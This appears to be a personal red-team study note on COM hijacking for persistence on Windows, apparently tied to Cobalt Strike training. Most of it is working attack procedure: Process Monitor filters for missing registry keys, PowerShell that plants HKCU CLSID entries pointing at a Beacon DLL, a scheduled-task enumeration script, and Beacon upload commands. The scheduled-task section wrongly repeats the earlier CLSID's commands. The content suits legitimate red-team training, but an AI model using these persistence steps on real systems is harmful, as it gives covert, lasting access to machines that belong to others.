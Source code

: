 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[COM Hijacks]]  
___

## Description:  
Used for persistence on a compromised machine.

Component Object Model (COM) is a technology built within the Windows operating system that allows intercommunication between software components of different languages.

COM hijacking comes into play when we are able to modify these entries to point to a different DLL - one that we control. So that when an application tries to call a particular coclass, instead of loading `C:\Windows\System32\ieframe.dll` (for example), it will load `C:\Temp\evil.dll` or whatever we specify.

The danger with hijacking COM objects like this is that you **will** break functionality. Hijacking a COM object without an understanding of what it does or what it's for is a very bad idea in a live environment.


### Hunting for COM Hijacks

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) is part of the excellent [Sysinternals Suite](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite). It shows real-time file system, registry and process activity and is very useful in finding different types of privilege escalation primitives. Launch **procmon64.exe** on **Attacker Windows**.

Due to the sheer number of events generated, filtering is essential to find the ones of interest. We're looking for:

-   **RegOpenKey** operations.
-   where the _Result_ is **NAME NOT FOUND**.
-   and the _Path_ ends with **InprocServer32**.

To speed the collection up you click random things, go into the Windows menu, launch applications etc. After just a few minutes, I have over 5,000 events - most of them from Explorer, some from 3rd party software and others from OS components.

find one that's loaded semi-frequently but not so much so, or loaded when a commonly-used application (Word, Excel, Outlook etc) is opened.


We can use some quick PowerShell to show that the entry does exist in HKLM, but not in HKCU.

```
PS C:\> Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"

Name                           Property
----                           --------
InprocServer32                 (default)      : C:\Windows\System32\thumbcache.dll
                               ThreadingModel : Apartment


PS C:\> Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32' because it does not exist.
```

To exploit this, we can create the necessary registry entries in HKCU and point them at a Beacon DLL.
```
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
PS C:\> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

To generate the DLL, go to **Attacks > Packages > Windows Executable (S)** and select **Windows DLL** as the output type. Then upload the DLL to the location we specified in the registry entry above.

```
beacon> cd C:\
beacon> upload C:\Payloads\beacon.dll
```

### Using Task Scheduler to look for Hijackable COM components

We can use the following PowerShell to find compatible tasks.

```
$Tasks = Get-ScheduledTask

foreach ($Task in $Tasks)
{
  if ($Task.Actions.ClassId -ne $null)
  {
    if ($Task.Triggers.Enabled -eq $true)
    {
      if ($Task.Principal.GroupId -eq "Users")
      {
        Write-Host "Task Name: " $Task.TaskName
        Write-Host "Task Path: " $Task.TaskPath
        Write-Host "CLSID: " $Task.Actions.ClassId
        Write-Host
      }
    }
  }
}
```

Use task scheduler to see how often these tasks run

```
PS C:\> Get-ChildItem -Path "Registry::HKCR\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"

Name           Property
----           --------
InprocServer32 (default)      : C:\Windows\system32\MsCtfMonitor.dll
               ThreadingModel : Both
```

```
PS C:\> Get-Item -Path "HKLM:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}" | ft -AutoSize

Name                                   Property
----                                   --------
{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1} (default) : MsCtfMonitor task handler


PS C:\> Get-Item -Path "HKCU:Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}"
Get-Item : Cannot find path 'HKCU:\Software\Classes\CLSID\{01575CFE-9A55-4003-A5E1-F38D1EBDCBE1}' because it does not exist.
```

To exploit this, we can create the necessary registry entries in HKCU and point them at a Beacon DLL.

```
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
PS C:\> New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\beacon.dll"
PS C:\> New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```

To generate the DLL, go to **Attacks > Packages > Windows Executable (S)** and select **Windows DLL** as the output type. Then upload the DLL to the location we specified in the registry entry above.

```
beacon> cd C:\
beacon> upload C:\Payloads\beacon.dll
```

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:32 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
